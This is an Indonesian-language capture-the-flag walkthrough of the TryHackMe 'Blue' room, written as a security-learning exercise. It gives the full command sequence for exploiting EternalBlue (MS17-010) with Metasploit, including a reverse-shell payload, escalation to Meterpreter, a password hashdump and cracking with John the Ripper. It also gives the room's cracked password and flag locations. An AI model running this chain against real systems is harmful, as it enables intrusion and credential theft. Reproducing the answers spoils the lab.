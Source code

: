 ## 🛠️ **TryHackMe: Blue – Ringkasan Materi**

📝 **Deskripsi:**  
Rangkuman ini disusun dengan bantuan AI (ChatGPT) setelah saya menyelesaikan room ini di TryHackMe. Tujuannya adalah untuk merapikan dan menyederhanakan materi agar lebih mudah dipahami dan diingat.

---

### 📘 **1. Recon (Enumerasi Awal)**

Langkah pertama adalah melakukan pemindaian untuk mengidentifikasi port dan layanan yang terbuka pada target:

```bash
nmap -sV --script vuln -v 10.10.209.236
```

* `-sV`: Mendeteksi versi layanan yang berjalan.
* `--script vuln`: Menjalankan skrip Nmap untuk mendeteksi kerentanan umum.

Hasil pemindaian menunjukkan bahwa port 445 terbuka dan rentan terhadap **MS17-010**, yang dikenal sebagai **EternalBlue**. ([InfoSec Write-ups][1])

---

### 💥 **2. Gain Access (Mendapatkan Akses)**

Gunakan Metasploit untuk mengeksploitasi kerentanan:

```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.209.236
set PAYLOAD windows/x64/shell/reverse_tcp
set LHOST <IP_Anda>
run
```

* `RHOSTS`: Alamat IP target.
* `LHOST`: Alamat IP lokal Anda untuk menerima koneksi balik.([Medium][2], [Aldeid][3])

Setelah berhasil, Anda akan mendapatkan shell pada sistem target.

---

### 🔄 **3. Escalate (Eskalasi Privilege)**

Untuk mendapatkan akses yang lebih tinggi, konversi shell menjadi sesi Meterpreter:

```bash
background
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION <nomor_sesi>
run
```

Setelah mendapatkan sesi Meterpreter, migrasikan ke proses lain untuk stabilitas:

```bash
ps
migrate <PID>
```

Identifikasi proses yang stabil dan migrasikan sesi Anda ke proses tersebut.

---

### 🔐 **4. Cracking (Mendekripsi Password)**

Gunakan Meterpreter untuk mengekstrak hash password:

```bash
hashdump
```

Simpan hash yang diperoleh ke dalam file dan gunakan John the Ripper untuk mendekripsi:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Contoh hasil dekripsi:

* **Username**: Jon
* **Password**: alqfna22([InfoSec Write-ups][1])



---

### 🏁 **5. Find Flags (Menemukan Flag)**

Cari file flag yang tersembunyi di sistem:

```bash
dir flag*.txt /s
```

Hasil pencarian:([InfoSec Write-ups][1])

* **Flag1**: `C:\flag1.txt`
* **Flag2**: `C:\Windows\System32\config\flag2.txt`
* **Flag3**: `C:\Users\Jon\Documents\flag3.txt`([InfoSec Write-ups][1])



---

### 🧠 **6. Kesimpulan**

Room "Blue" memberikan pemahaman praktis tentang eksploitasi kerentanan SMB di sistem Windows menggunakan EternalBlue. Langkah-langkah yang dipelajari mencakup enumerasi awal, eksploitasi dengan Metasploit, eskalasi privilege, dekripsi password, dan pencarian flag. Pengalaman ini memperkuat keterampilan dalam pengujian penetrasi dan keamanan jaringan.
